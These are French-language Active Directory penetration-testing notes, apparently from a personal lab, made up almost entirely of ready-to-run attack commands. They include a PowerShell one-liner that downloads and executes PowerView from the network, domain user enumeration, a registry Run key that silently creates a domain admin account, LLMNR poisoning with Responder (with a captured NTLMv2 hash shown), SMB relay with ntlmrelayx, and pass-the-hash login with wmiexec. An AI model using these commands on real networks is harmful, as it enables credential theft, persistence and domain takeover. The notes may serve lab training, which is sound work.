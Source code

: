 https://github.com/PowerShellMafia/PowerSploit/tree/dev
`IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')`
(Get-DomainPolicy)."SystemAccess"
Get-DomainUser |  ?{$_.description -ne ""} | select name,description
Get-DomainUser | ?{$_.description} | select name,description
Get-DomainUser |  ?{$_.description} | select samaccountname,description
Get-NetComputer -OperatingSystem “*Server 2008*” | select name,operatingsystem

https://github.com/samratashok/ADModule

## Créer un user au run
New-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "StartUpdate" -Value "cmd.exe /c `"net user testadmin Passw0rd /domain /add && net group `"Admins du domaine`" testadmin /add /domain`"" -PropertyType String -Force

Hack avec ce qui existe déjà sur une machine standard : https://lolbas-project.github.io/


## LLMNR Poisoning - Récupérer le hash de l'user

Vérifier que SMB et HTTP sont ON dans /etc/responder/responder.conf 
Ecoute du réseau depuis eth1, et poisoning lorsqu'un événement LLMNR (résolution de noms sur un réseau local lorsque les machines ne sont pas inscrites dans le serveur DNS du domaine) arrive
sudo responder –I eth1 –dwPv
*Ouvrir un share inexistant sur une des machines*
[SMB] NTLMv2-SSP Client   : fe80::19f:7658:c3c3:68db
[SMB] NTLMv2-SSP Username : WODENSEC\Administrateur
[SMB] NTLMv2-SSP Hash     : Administrateur::WODENSEC::hash

## SMB Relay

Vérifier les machines vulnérables sur le réseau :
nmap –p 445 --script=smb2-security-mode --open 10.0.2.0/24
-> SMB Signing doit être disabled ou enabled but not required.
Mettre les IP dans un fichier targets.txt
Vérifier que SMB et HTTP sont OFF dans /etc/responder/responder.conf  
La cible doit être local admin.
Lancer les listeners :
sudo responder –I eth1 –dwPv
Dans un autre terminal :
impacket-ntlmrelayx -tf /home/kali/adlab/target.txt -smb2support
Résultat :
![[Pasted image 20231222145149.png]]

## Ouvrir une session avec un hash
impacket-wmiexec installpc@9.11.93.6 -hashes *hash*
Tester aussi psexex...